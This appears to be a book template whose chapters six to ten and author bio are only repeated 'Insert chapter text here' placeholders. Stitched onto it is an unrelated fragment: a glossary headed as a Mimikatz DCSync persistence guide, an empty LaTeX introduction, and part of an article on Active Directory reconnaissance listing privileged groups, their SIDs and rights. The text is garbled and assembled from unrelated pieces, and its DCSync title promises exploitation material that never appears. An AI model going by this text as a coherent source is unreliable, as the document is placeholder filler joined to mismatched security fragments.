Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

7 CHAPTER NAME

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here. Insert chapter seven text here.

8 CHAPTER NAME

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here. Insert chapter eight text here.

9 CHAPTER NAME

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here. Insert chapter nine text here.

10 CHAPTER NAME

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here.

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here.

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here.

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here.

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. 

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here.

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here.

Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here. Insert chapter ten text here.

ABOUT THE AUTHOR

Insert author bio text here. Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here Insert author bio text here

 

Active Directory Persistence: Mimikatz DCSync Usage, Exploitation, and Detection

\subsection{Key Terminology}

Active Directory Schema:

The Active Directory schema is a blueprint that defines the structure and rules for objects and their attributes within an Active Directory forest. It specifies what types of objects can be created (like users, computers, groups) and the properties (attributes) that each object can have. Essentially, it dictates how information is organized and stored in the Active Directory database.

Azure Active Directory (Azure AD):

Azure Active Directory (Azure AD), now known as Microsoft Entra ID, is a cloud-based identity and access management service. It allows organizations to manage users, groups, and access to resources in the cloud and on-premises. Essentially, it acts as a directory service and an identity provider, enabling secure access to various Microsoft and third-party applications.

C-Suite:

In cybersecurity, the "C-suite" refers to the highest level of executives within an organization, typically including positions like CEO, CFO, CIO, and CISO. These leaders play a crucial role in cybersecurity by setting the strategic direction, allocating resources, and ensuring that security is integrated into the overall business strategy. Their involvement is essential for establishing a strong security posture and mitigating risks.

DCSync:

DCSync is a technique used in cybersecurity attacks to impersonate a Domain Controller (DC) and request replication data, including sensitive credentials, from other DCs in an Active Directory (AD) environment.

Domain Replication:

Domain replication is the process of copying and synchronizing directory data across multiple domain controllers (or other servers) within a network. This ensures that all domain controllers have the same information, improving reliability, performance, and data consistency. Essentially, any changes made to the directory on one domain controller are automatically replicated to all others.

Group Policy Object (GPO):

In Active Directory (AD), a Group Policy Object (GPO) is a virtual collection of settings that allows administrators to manage and configure user and computer settings within an AD environment. GPOs are fundamental for centrally controlling and standardizing settings across an organization's network, ensuring consistency and security.

Impersonation:

In cybersecurity, impersonation refers to a malicious tactic where an attacker pretends to be a trusted individual, organization, or system to deceive a target into taking actions that benefit the attacker. This often involves social engineering to manipulate victims into revealing sensitive information, transferring funds, or granting access to systems.

Password Hashes:

Password hashing is a security measure that converts passwords into irreversible, fixed-length strings of characters (hashes) using a one-way function. This prevents the storage of passwords in plain text, making them unreadable even if a database is compromised. Instead of storing the actual password, a system stores its hash, which can be compared to a user's input during login, ensuring authentication without exposing the original password.

Principle of Least Privilege (PoLP):

PoLP stands for the Principle of Least Privilege. It's a cybersecurity concept that dictates users, applications, and systems should only have the minimum necessary access rights to perform their intended tasks. This approach minimizes the potential damage from compromised accounts and reduces the attack surface for malicious actors.

Role-based Access Control (RBAC):

Role-Based Access Control (RBAC) is a security approach that restricts system access based on a user's role within an organization. Instead of granting permissions directly to users, RBAC assigns permissions to roles, and then users are assigned to those roles. This helps manage access effectively and ensures users only have the resources they need.

Security Event and Information Management (SIEM):

SIEM, which stands for Security Information and Event Management, is a cybersecurity solution that aggregates and analyzes security data from various sources within an IT environment. It helps organizations detect, investigate, and respond to security threats in real-time. Essentially, SIEM systems collect logs and event data, correlate that information, and provide a centralized view of security incidents, enabling faster and more effective threat detection and response.

\subsection{Introduction}

\subsubsection{A Sneaky AD Persistence Method}

\section{Active Directory Recon Without Admin Rights}

Active Directory Recon is the new hotness since attackers, Red Teamers, and penetration testers have realized that control of Active Directory provides power over the organization.

This post details how privileged access is delegated in Active Directory and how best to discover who has what rights and permissions in AD. When we perform an Active Directory Security Assessment for customers, we review all of the data points listed in this post, including the privileged groups and the rights associated with them by fully interrogating Active Directory and mapping the associated permissions to rights and associating these rights to the appropriate groups (or accounts).

Active Directory Privileged Access

The challenge is often determining what access each group actually has. Often the full impact of what access a group actually has is not fully understood by the organization. Attackers leverage access (though not always privileged access) to compromise Active Directory.

The key point often missed is that rights to Active Directory and key resources is more than just group membership, it is the combined rights the user has which is made up of:

\begin{itemize}
    \item Active Directory group membership.
    \item AD groups with privileged rights on computers
    \item Delegated rights to AD objects by modifying the default permissions (for security principals, both direct and indirect).
    \item Rights assigned to SIDs in SIDHistory to AD objects.
    \item Delegated rights to Group Policy Objects.
    \item User Rights Assignments configured on workstations, servers, and Domain Controllers via Group Policy (or Local Policy) defines elevated rights and permissions on these systems.
    \item Local group membership on a computer or computers (similar to GPO assigned settings).
    \item Delegated rights to shared folders.
\end{itemize}
Group Membership

Enumerating group membership is the easy way to discovering  privileged accounts in Active Directory, though it often doesn’t tell the full story.  Membership in Domain Admins, Administrators, and Enterprise Admins obviously provides full domain/forest admin rights. Custom groups are created and delegated access to resources.

This screenshot shows using PowerView to find VMWare groups and list the members.

Interesting Groups with default elevated rights:

Account Operators: Active Directory group with default privileged rights on domain users and groups, plus the ability to logon to Domain Controllers

Well-Known SID/RID: S-1-5-32-548

The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.

Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups. Members of this group cannot modify user rights.

The Account Operators group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

By default, this built-in group has no members, and it can create and manage users and groups in the domain, including its own membership and that of the Server Operators group. This group is considered a service administrator group because it can modify Server Operators, which in turn can modify domain controller settings. As a best practice, leave the membership of this group empty, and do not use it for any delegated administration. This group cannot be renamed, deleted, or moved.

Administrators: Local or Active Directory group. The AD group has full admin rights to the Active Directory domain and Domain Controllers

Well-Known SID/RID: S-1-5-32-544

Members of the Administrators group have complete and unrestricted access to the computer, or if the computer is promoted to a domain controller, members have unrestricted access to the domain.

The Administrators group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

The Administrators group has built-in capabilities that give its members full control over the system. This group cannot be renamed, deleted, or moved. This built-in group controls access to all the domain controllers in its domain, and it can change the membership of all administrative groups.

Membership can be modified by members of the following groups: the default service Administrators, Domain Admins in the domain, or Enterprise Admins. This group has the special privilege to take ownership of any object in the directory or any resource on a domain controller. This account is considered a service administrator group because its members have full access to the domain controllers in the domain.

This security group includes the following changes since Windows Server 2008:

Default user rights changes: Allow log on through Terminal Services existed in Windows Server 2008, and it was replaced by Allow log on through Remote Desktop Services.

Remove computer from docking station was removed in Windows Server 2012 R2.

Allowed RODC Password Replication Group: Active Directory group where members can have their domain password cached on a RODC after successfully authenticating (includes user and computer accounts).

Well-Known SID/RID: S-1-5-21-<domain>-571

The purpose of this security group is to manage a RODC password replication policy. This group has no members by default, and it results in the condition that new Read-only domain controllers do not cache user credentials. The Denied RODC Password Replication Group group contains a variety of high-privilege accounts and security groups. The Denied RODC Password Replication group supersedes the Allowed RODC Password Replication group.

The Allowed RODC Password Replication group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Backup Operators: Local or Active Directory group. AD group members can backup or restore Active Directory and have logon rights to Domain Controllers (default).

Well-Known SID/RID: S-1-5-32-551

